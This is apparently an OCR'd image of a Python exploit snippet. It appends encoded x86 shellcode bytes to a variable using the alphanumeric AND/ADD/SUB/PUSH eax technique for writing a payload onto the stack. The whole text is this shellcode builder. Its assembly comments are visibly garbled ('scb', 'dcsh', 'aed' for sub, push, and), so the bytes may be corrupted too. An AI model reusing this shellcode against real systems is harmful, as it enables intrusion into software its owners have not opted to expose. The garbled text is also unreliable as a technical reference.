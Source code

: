 ```python
shellcode += "\x05\x53\x43\x34\x64" ## add  eax, 0x64344353
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x05\x67\x54\x34" ## add  eax, 0x34546705
shellcode += "\x05\x05\x57\x54\x44" ## add  eax, 0x44545705
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x40\x05\x33\x63" ## add  eax, 0x63330540
shellcode += "\x05\x40\x04\x24\x52" ## add  eax, 0x52240440
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x36\x52\x15\x33" ## add  eax, 0x33155236
shellcode += "\x05\x46\x41\x15\x42" ## add  eax, 0x42154146
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x63\x63\x30\x62" ## add  eax, 0x62306363
shellcode += "\x05\x62\x53\x20\x62" ## add  eax, 0x62205362
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x51\x77\x63\x16" ## add  eax, 0x16637751
shellcode += "\x05\x50\x67\x64\x15" ## add  eax, 0x15646750
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x75\x33\x11\x21" ## add  eax, 0x21113375
shellcode += "\x05\x64\x23\x10\x20" ## add  eax, 0x20102364
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x21\x02\x11\x66" ## add  eax, 0x66110221
shellcode += "\x05\x10\x01\x10\x56" ## add  eax, 0x56100110
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x67\x16\x17\x31" ## add  eax, 0x31171667
shellcode += "\x05\x67\x15\x07\x31" ## add  eax, 0x31071567
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x53\x40\x72\x71" ## add  eax, 0x71724053
shellcode += "\x05\x52\x40\x71\x70" ## add  eax, 0x70714052
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x35\x50\x74\x16" ## add  eax, 0x16745035
shellcode += "\x05\x44\x40\x64\x15" ## add  eax, 0x15644044
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x44\x74\x62\x52" ## add  eax, 0x52627444
shellcode += "\x05\x44\x63\x51\x42" ## add  eax, 0x42516344
shellcode += "\x05\x34\x53\x32\x42" ## add  eax, 0x42325334
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x73\x23\x61\x62" ## add  eax, 0x62612373
```
